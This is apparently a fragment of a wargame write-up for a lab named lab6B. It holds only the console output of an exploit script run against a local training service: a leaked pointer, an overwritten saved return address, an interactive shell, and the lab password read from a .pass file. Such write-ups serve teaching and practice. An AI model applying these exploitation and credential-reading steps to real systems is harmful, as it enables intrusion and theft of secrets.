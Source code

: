 {% highlight bash %}
lab6B@warzone:/tmp/lab6B$ python solve.py 127.0.0.1 6642
[*] For remote: solve.py HOST PORT
[+] Opening connection to 127.0.0.1 on port 6642: Done
[+] leaked ptr 0xb4700c7d found
[+] login() found @ 0xb7730af4
[+] saved EIP overwritten w/login()!
[*] Switching to interactive mode

WELCOME MR. FALK
$ id
uid=1024(lab6A) gid=1025(lab6A) groups=1025(lab6A),1001(gameuser)
$ cat /home/lab6A/.pass
strncpy_1s_n0t_s0_s4f3_l0l
$  
{% endhighlight %}

